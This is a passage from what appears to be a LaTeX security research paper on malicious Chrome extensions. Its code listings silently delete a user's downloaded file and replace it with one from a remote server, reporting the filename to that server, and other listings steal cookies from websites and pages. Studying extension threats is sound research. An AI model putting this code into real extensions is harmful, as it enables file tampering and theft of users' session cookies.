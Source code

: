	
	Similar to our attack implementation at \autoref{code:exchangeDownloadFile}, we listen for the user initiating a new download, check for a particular mime type of the downloading file, and wait until the download has finished (lines 1-3). To generate a fake file at our remote server, we extract the name of the downloaded file from its full path on the user operating system (line 4). We remove the downloaded file (lines 5-7) and download our fake file (line 8-10). Again, we forward the name and mime type of the downloaded file to our remote server (line 9).
	
	\begin{code}
		\begin{lstlisting}
chrome.downloads.onCreated.addListener(function (downloadItem) {
	if(downloadItem.mime === TARGETED_MIME_TYPE) {
		waitUntilDownloadHasFinished(function() {
			var filename = downloadItem.filename.split('\x5c').pop();			
			chrome.downloads.removeFile(downloadItem.id, function() {
				chrome.downloads.erase({ id: downloadItem.id });
			});
			chrome.downloads.download({
				url: REMOTE_SERVER_URL + '?filename=' downloadItem.filename + '&mime_type=' + downloadItem.mime,
				method: 'GET',
			});	
		});
	}
});
\end{lstlisting}
		\caption{Extension code to silently exchange a file after the user has downloaded it.}
		\label{code:exchangeDownloadedFile}
	\end{code}



\subsection{Steal Cookies}

	\begin{code}
		\begin{lstlisting}
chrome.cookies.getAll({ url: TARGETED_URL }, function(cookies) {
	send(cookies);
});
\end{lstlisting}
		\caption{Extension code to steal cookies from any website.}
	\end{code}
	
	\begin{code}
		\begin{lstlisting}
send(document.cookie.split(';'));
\end{lstlisting}
		\caption{Content script to steal cookies from the current web page.}
	\end{code}



